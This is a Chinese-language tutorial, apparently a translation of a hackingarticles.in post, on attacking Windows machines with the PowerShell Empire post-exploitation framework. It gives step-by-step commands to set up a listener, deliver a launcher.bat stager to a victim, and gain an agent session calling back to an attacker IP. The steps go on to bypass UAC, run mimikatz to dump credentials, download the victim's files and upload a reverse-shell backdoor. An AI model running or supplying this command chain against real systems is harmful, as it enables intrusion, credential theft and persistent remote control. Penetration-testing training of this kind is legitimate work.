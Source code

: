 ## 使用Empire进行黑客攻击 - PowerShell后利用代理

### **Empire介绍 ** [^1]

**重要性 ** [^2]

### **术语**

- **监听器：**监听器是一个从我们正在攻击的机器上侦听连接的进程。这有助于帝国将战利品发回攻击者的计算机。
- **Stager：** stager是一段代码，允许我们的恶意代码通过受感染主机上的代理运行。
- **代理：**代理是一种程序，用于维护计算机与受感染主机之间的连接。
- **模块：**执行我们的恶意命令，这些命令可以收集凭据并升级我们的权限，如上所述。

### **安装**

`git clone https://github.com/EmpireProject/Empire.git`

```bash
cd Empire/
ls
cd setup/
ls
./install.sh
./reset.sh
```

`listeners`

`uselistener <tab> <tab>`

`uselistener http` [^3]

`info` [^4]

`set Name test` [^5]

`set Host http://192.168.1.107 & execute` [^6]

`back` [^7]

`usestager <tabt> <tab> `[^8]

`usestager windows/launcher_bat & info`

`set Listener test & execute` [^9]

`agents` [^10]

`launcher powershell`

`rename ZAF3GT5W raajpc` [^11]

`interact raajpc` [^12]

**bypassuac http**[^13]

`rename HE3K45LN adminraj` [^14]

`list`

`interact adminraj`

`<tab> <tab>`  [^15]

`help`

`mimikatz` [^16]

```bash
# 使用UAC提权模块
interace A8Uxxxx
usemodule privesc/bypassuac
set Listener test
execute
```

### **creds** [^17]

`shell netstat -ano`

```bash
# 因为windows中的默认shell目录是“ C：/ windows / system32 ”; 让我们尝试移动到另一个目录并尝试从那里下载一些文件，我们也可以在该位置上传一些内容，例如，我们可以上传后门！
shell cd C:\Users\raj\Desktop
shell dir
download 6.png
upload /root/Desktop/revshell.php
# 下载文件的位置 Empire directory/downloads/<agent name>/<agent shell location>
# 例如: ~/Empire/downloads/admniraj/c:/Users/raj/Desktop/
```

`usemodule <tab> <tab>` [^18]

```bash
usemodule trollsploit/message
options
set MsgText you have been hacked
execute
y
```

[原文](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)

---

[^1]: Empire是一个后开发框架。它是一个纯粹的PowerShell代理，专注于python，具有加密安全通信和灵活架构的附加功能。Empire具有在不需要PowerShell.exe的情况下执行PowerShell代理的方法。它可以迅速采用可后期利用的模块，涵盖范围广泛，从键盘记录器到mimikatz等。这个框架是PowerShell Empire和Python Empire项目的组合; 这使它用户友好和方便。PowerShell Empire于2015年问世，Python Empire于2016年问世。它类似于Metasploit和Meterpreter。但由于它是命令和控制工具，它允许您更有效地控制PC
[^2]: PowerShell提供了丰富的攻击性优势，进一步包括.NET的全部访问，applock白名单以及对Win32的直接访问。它还在内存中构建恶意二进制文件。它提供C2功能，允许您在第一阶段之后植入第二阶段。它也可以用于横向移动。随着它与其他框架相比发展迅速，它非常方便。此外，由于它不需要PowerShell.exe，它可以让您绕过反病毒。因此，最好使用PowerShell Empire
[^3]: 此命令在本地端口80上创建一个侦听器。如果端口80已经被像Apache这样的服务占用，请确保停止该服务，因为此侦听器是http侦听器只能在端口80上工作
[^4]: 查看所有设置
[^5]: 更改我们的监听器的名称，因为它有助于记住并批量所有被激活的监听器
[^6]: 通常，此侦听器会自动占用本地主机IP，但为了以防万一，您可以使用以下命令设置IP
[^7]: 从监听器接口返回，以便我们可以执行我们的模块
[^8]: 查看Empire提供的所有模块
[^9]: 在设置侦听器测试并创建`/tmp/launcher.bat`之后，上述两个命令将执行我们的漏洞利用。使用`python`服务器在受害者的PC中执行此文件。当文件将执行时，您将有一个会话
[^10]: 检查您的会话类型
[^11]: 使用上面的命令，您可以看到已激活会话。您可以更改会话的名称，因为默认情况下给出的名称非常复杂且难以记住
[^12]: 使用这个命令访问会话
[^13]: 获得对会话的访问权限后，请尝试使用以下命令获取管理会话
[^14]: 执行`bypassuac`命令后，将打开另一个会话。键入这个命令重命名该会话
[^15]: **<tab> <tab>**帮助我们查看shell中的所有选项。有几种选择对后期开发很有帮助。如信息，工作，列表等
[^16]: 我们尝试运行  **mimikatz**  来获取用户的密码。由于  **mimikatz**  不能在普通的guest用户shell上运行，并且只能在admin shell上运行; 这也证明我们必须实现管理员访问权限，以便我们可以使用mimikatz
[^17]: 用明文及其哈希格式转储任何用户的凭据或密码
[^18]: 该命令将显示所有可用模块并可供使用